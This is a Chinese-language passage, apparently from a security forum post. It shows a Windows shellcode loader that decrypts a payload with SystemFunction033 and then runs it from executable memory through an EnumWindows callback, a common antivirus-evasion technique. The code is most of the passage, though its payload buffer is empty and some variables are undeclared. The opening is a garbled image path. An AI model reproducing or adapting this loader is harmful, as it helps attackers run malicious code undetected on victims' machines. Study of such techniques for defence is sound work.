 后面可以SystemFunction033进行解密然后执行（具体分析可以看参考链接）

```php
#include "function.h"

int main() {
    DWORD pflOldProtect = 0;
    char _key[] = "alphaBetagamma";

    unsigned char buf[] = { 0 };
    key.Buffer = (PUCHAR)(&_key);
    key.Length = sizeof(key);

    _data.Buffer = (PUCHAR)buf;
    _data.Length = sizeof(buf);

    SystemFunction033(&_data, &key);
    LPVOID alloc_mem = VirtualAlloc(NULL, sizeof(buf), MEM_COMMIT, PAGE_READWRITE);
    memcpy(alloc_mem, buf, sizeof(buf));
    VirtualProtect(alloc_mem, sizeof(buf), PAGE_EXECUTE_READWRITE, &pflOldProtect);
    EnumWindows((WNDENUMPROC)alloc_mem, NULL);
}
```

![1.png](https://shs3.b.qianxin.com/attack_forum/2023/03/attach-c2f00bcb8fba6b973e50055b99ea03c6f86c7108.png)

参考：  
<https://learn.microsoft.com/zh-cn/windows/win32/api/ip2string/nf-ip2string-rtlipv6addresstostringa>  
<https://learn.microsoft.com/zh-cn/windows/win32/api/rpcdce/nf-rpcdce-uuidfromstringa>  
<https://osandamalith.com/2022/11/10/encrypting-shellcode-using-systemfunction032-033/>